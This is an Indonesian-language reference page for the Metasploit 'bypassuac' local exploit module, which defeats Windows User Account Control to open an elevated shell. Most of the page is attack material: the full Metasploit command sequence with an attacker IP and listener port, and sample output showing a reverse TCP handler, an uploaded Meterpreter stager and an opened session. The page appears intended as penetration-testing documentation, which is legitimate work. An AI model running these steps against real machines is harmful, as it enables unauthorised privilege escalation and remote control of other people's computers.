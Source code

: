 # bypassuac

Modul ini akan melewati perlindungan `UAC` (`User Account Control`) di Windows dengan memanfaatkan sertifikat trusted publisher melalui teknik injeksi proses (process injection). Modul ini akan menjalankan shell kedua yang memiliki bendera `UAC` dimatikan, artinya shell tersebut berjalan dengan hak akses yang lebih tinggi (tanpa dibatasi oleh `UAC`).

## Penulis
- David Kennedy "ReL1K" kennedyd013@gmail.com
- mitnick
- mubix mubix@hak5.org

## Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/bypassuac
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set TECHNIQUE EXE
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 7 opened (192.168.1.11:4444 -> 192.168.1.53:49166) at 2025-05-17 05:10:35 +0700

meterpreter >
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac/)
